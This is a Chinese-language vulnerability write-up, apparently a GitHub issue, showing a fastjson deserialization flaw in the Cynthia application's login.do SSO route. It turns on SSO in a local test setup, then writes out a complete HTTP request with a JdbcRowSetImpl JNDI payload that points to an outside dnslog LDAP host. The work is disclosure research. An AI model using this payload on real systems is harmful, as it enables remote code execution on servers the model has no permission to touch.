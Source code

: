 ```SQL
			com.alibaba.fastjson.JSONObject data = com.alibaba.fastjson.JSONObject.parseObject(passport);
			userName = data.getString("username");
			userId = data.getString("id");
		}
     ....
     ....
     ....
     
```


在/login.do路由这块使用了.parseObject()方法，将参数passport的值转化为json对象，但是想进入这个if条件，必须开启sso单点登录，即是if条件值为true

![image](https://github.com/user-attachments/assets/3869372b-c64e-41d9-b6cf-b67ce3f21e8f)


跟踪ConfigManager.getEnableSso()，可以看到properties.getProperty("sso.enable")，继续跟踪这个

![image](https://github.com/user-attachments/assets/e95b67a3-57a9-4f26-99fe-d6b5c7800059)


跳到了配置文件中，可以看到`sso.enable:false`硬编码为false，那就进不去上述那个if条件，无法进行fastjson反序列化测试。

![image](https://github.com/user-attachments/assets/7ad83b02-eac9-4a90-b9cb-978b8c248edb)


进行尝试：

![image](https://github.com/user-attachments/assets/306de25c-faa4-45c2-b6ba-f3f8ef6728d1)


接收不到请求

![image](https://github.com/user-attachments/assets/fe4b38eb-7d11-4e8d-ba52-1a6a66e25307)


为了测试是否存在此漏洞，我将`sso.enable:false`改为`true`，重启tomact服务器。

![image](https://github.com/user-attachments/assets/9b3a0926-c3ba-4f93-b430-ef1214c3bc92)


构造数据包：

```SQL
POST /cynthia_war/user/login.do HTTP/1.1
Host: 192.168.100.4:8080
X-XSRF-TOKEN: null
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://192.168.100.4:8080
Referer: http://192.168.100.4:8080/cynthia_war/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: JSESSIONID=8CD4022EE3A992316AC39A25C7683B32; webRootDir="http://192.168.100.4:8080/cynthia_war/"; login_username=admin; login_password=21232f297a57a5a743894a0e4a801fc3; userId=""; login_nickname=admin
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 138

passport=[{
  "@type": "com.sun.rowset.JdbcRowSetImpl",
  "dataSourceName": "ldap://ibs41m.dnslog.cn/Exploit",
  "autoCommit": true
}]
```

